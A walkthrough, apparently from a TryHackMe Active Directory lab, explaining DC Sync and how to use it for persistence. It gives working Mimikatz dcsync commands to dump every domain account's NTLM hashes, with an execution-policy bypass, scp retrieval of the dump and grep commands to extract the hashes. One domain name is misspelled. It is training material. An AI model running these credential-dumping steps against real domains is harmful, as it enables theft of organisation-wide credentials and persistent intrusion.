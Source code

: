 # Persistence through credentials

It is not sufficient to have a single domain controller per domain in large organisations. These domains are often 
used in multiple regional locations, and having a single DC would significantly delay any authentication services in 
AD. These organisations make use of multiple DCs.

Each domain controller runs a process called the Knowledge Consistency Checker (KCC). The KCC generates a 
replication topology for the AD forest and automatically connects to other domain controllers through Remote 
Procedure Calls (RPC) to synchronise information. This includes updated information such as the user's new 
password and new objects such as when a new user is created.

The process of replication is called DC Synchronisation. It is not just the DCs that can initiate replication. 
Accounts such as those belonging to the Domain Admins groups can also do it for legitimate purposes such as creating 
a new domain controller.

A popular attack to perform is a DC Sync attack. With access to an account that has domain replication permissions, 
it is possible to stage a DC Sync attack to harvest credentials from a DC.

## Passwords

Passwords can easily be changed and will be changed by the blue team when an attacker is discovered. More reliable 
credentials would be:

* Local Administrative Accounts (Could still maintain a presence on multiple machines)
* Delegate Accounts (Given the right delegation, could generate silver or golden tickets)
* AD Service Credentials (WSUS, SCCM, Could force changes on the network)

## Order of Operations

* Use your unprivileged credentials from the distributor to facilitate initial access
* Use the given Administrator credentials to perform privileged operations. Pretend that these are credentials you've 
obtained during the [exploitation phase](../exploit/README.md).

## DC Sync

SSH to `THMWRK1`:

    ssh administrator@za.tryhackme.loc@thmwrk1.za.tryhackme.loc

To do a DC Sync of a single account DC Sync with Mimikatz, test it on the user credential obtained from the distributor:

```text
powershell.exe -ep bypass

C:\Tools\mimikatz_trunk\x64\mimikatz.exe

mimikatz # lsadump::dcsync /domain:za.tryhackmloc /user:user.name
```

To dcsync all users from the domain controller:

* Specify a log file in the Mimikatz session
* Or, exit Mimikatz and run a one-liner

### Log file

To enable logging on Mimikatz (change `user.name` to the one received from the distributor):

```text
mimikatz # log <user.name>_dcdump.txt 
Using '<user.name>_dcdump.txt' for logfile: OK
```

Use the /all flag:

```text
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```

Takes a while ... Once done, exit Mimikatz to finalise the dump find.

Download the `<user.name>_dcdump.txt` or `dcsyncall.txt` file:

```text
scp administrator@za.tryhackme.loc@thmwrk1.za.tryhackme.loc:C:/Users/Administrator.ZA/<user.name>_dcdump.txt .
```

Recover all the usernames:

    cat <user.name>_dcdump.txt | grep "SAM Username"

Recover all hashes:

    cat <user.name>_dcdump.txt | grep "Hash NTLM"

### One-liner

The better solution because it keeps the log files clean:

```text
C:\Tools\mimikatz_trunk\x64\mimikatz.exe 'lsadump::dcsync /domain:za.tryhackme.loc /all' > dcsyncall.txt
```

Download the `dcsyncall.txt` file:

```text
scp administrator@za.tryhackme.loc@thmwrk1.za.tryhackme.loc:C:/Users/Administrator.ZA/dcsyncall.txt .
```

Remove Windows CRLF line endings and change to utf8 encoding

    dos2unix dcsyncall.txt

Inspect the file with the `less` command, using the arrow keys to navigate, and searching for a term by hitting the 
`/` key:

    less dcsyncall.txt

